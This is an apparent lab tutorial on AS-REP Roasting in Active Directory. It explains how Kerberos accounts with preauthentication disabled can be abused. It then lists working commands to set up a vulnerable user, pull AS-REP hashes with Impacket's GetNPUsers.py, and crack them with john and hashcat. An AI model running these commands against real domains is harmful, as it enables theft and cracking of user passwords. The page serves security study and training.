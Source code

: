 # 7.2 - AS-REP Roasting

### AS-REP Roasting

AS-REP Roasting exploits accounts for which **Kerberos preauthentication is disabled**. In a typical Kerberos authentication process, the client must send a timestamp encrypted with its password-derived key. This serves as proof that the authentication request is not being replayed.

However, if preauthentication is **disabled**, the client does not need to send this encrypted timestamp. As a result, an attacker can request a **Ticket Granting Ticket (TGT)** for the target user and receive an AS-REP message encrypted with the user’s password hash.

#### AS-REP Process

```
1) AS-REQ (Client -> KDC/AS)
   - Timestamp 🔑 Encrypted with Client key (only if preauthentication is enabled)

2) AS-REP (KDC/AS -> Client)
   - TGT 🔑 Encrypted with KDC key
   - TGS Session Key 🔑 Encrypted with Client key
```

In this case we can jump the first step because the preauth is disabled. Once an attacker captures the **AS-REP**, they can attempt to crack the user's password offline.

### Example: Exploiting AS-REP Roasting

**Step 1: Create a User**

```powershell
New-ADUser -Name "asrep" -SamAccountName "asrep" -UserPrincipalName "asrep@dev-angelist.lab" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Disable Preauthentication**

```
Win + R -> dsa.msc
User -> Properties -> Account -> Account Options -> Do not require Kerberos preauthentication
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or via PowerShell:

```powershell
Get-ADUser -Identity "asrep" -Properties DoesNotRequirePreAuth | Select-Object Name, DoesNotRequirePreAuth
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Perform AS-REP Roasting using Impacket**

<pre class="language-bash"><code class="lang-bash"><strong>#On attacker machine create a dedicated python environment (optional)
</strong>python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Perform AS-REP Roasting attack using the Impacket's module: GetNPUsers.py
GetNPUsers.py dev-angelist.lab/asrep -dc-ip corp-dc -no-pass | grep '\$krb5asrep\$' > as-rep.txt
</code></pre>

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4: Crack the Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./as-rep.txt
hashcat -m 18200 ./as-rep.txt /home/kali/Documents/password.txt
```

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)
